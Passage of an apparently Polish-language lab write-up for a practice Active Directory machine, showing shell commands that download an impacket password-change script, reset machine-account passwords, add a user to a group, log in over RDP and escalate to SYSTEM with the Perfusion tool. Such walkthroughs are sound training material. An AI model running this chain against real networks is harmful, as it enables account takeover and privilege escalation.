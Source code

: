 ```

```
```
wget https://raw.githubusercontent.com/api0cradle/impacket/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py
python3 rpcchangepwd.py retro2.vl/fs01\$:fs01@10.10.98.90 -newpass Test123@
net rpc password 'ADMWS01$' Test@321 -U retro2.vl/'fs01$'%Test123@ -S bln01.retro2.vl
```
![{B7FE3E2C-26A3-49F9-A404-F762D4F588AB}](https://github.com/user-attachments/assets/d2777ed0-1b8c-4d9d-b9ca-2a4a509e4ca4)

![{EF682CDF-C0DF-4E22-BB0A-7DA0404A97C0}](https://github.com/user-attachments/assets/30495242-72e3-49ef-9066-3710f82dcca3)

```
net rpc group addmem "SERVICES" "ldapreader" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
net rpc group members "SERVICES" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
xfreerdp /u:ldapreader /p:p<hidden>R /v:10.10.98.90 /tls-seclevel:0
```

![{BE79DFB4-6024-4D78-885B-3FA73F561919}](https://github.com/user-attachments/assets/993ffc2c-fb99-4896-84f2-dd07ad9217c7)

priv escalation na windows server 2008 powinien być dość prosty xd

![{3F166731-AE22-4A4D-95B8-AAAC6E61EDC7}](https://github.com/user-attachments/assets/5d2c4ed7-6f64-4096-9d68-36feb15694e5)

![{15FA1675-B7A6-45FE-B780-C77D2AD7215D}](https://github.com/user-attachments/assets/eb3623c0-e6eb-423f-884f-ae38a28c4310)

![{70D6B46A-982B-4FCE-B780-BE3CA4A273D4}](https://github.com/user-attachments/assets/da803adf-7cb2-4f64-8533-75bdd5f13949)

![{683E5425-725E-4B60-B344-7860CA406978}](https://github.com/user-attachments/assets/378db5cf-55ba-4bb7-a079-802dce1e38f2)

![{EE99BCC9-CE89-49D8-90F4-026D77781DFD}](https://github.com/user-attachments/assets/b5a8d595-7eab-4829-be6c-511880c109c3)

![{FACDC06C-A0F1-4999-B2B2-7942F8F055B5}](https://github.com/user-attachments/assets/db11e69a-bb5b-4db1-9e29-476efba739cc)


śmiesznie

![{1604D058-AFC4-44A9-A313-3A13FA0DAAA4}](https://github.com/user-attachments/assets/b599f209-34af-4a4d-a81c-20dc2f966651)


klasyczek. All failed.

Dobra znalazłem takie cuda. 
`https://github.com/itm4n/Perfusion.git`

kompilacja i wrzucamy na maszynkę.

![{4D6848EE-7787-48A1-9051-8523D70062E7}](https://github.com/user-attachments/assets/d27c7f7f-ded8-428b-8669-12c340174f4f)

no i mamy system




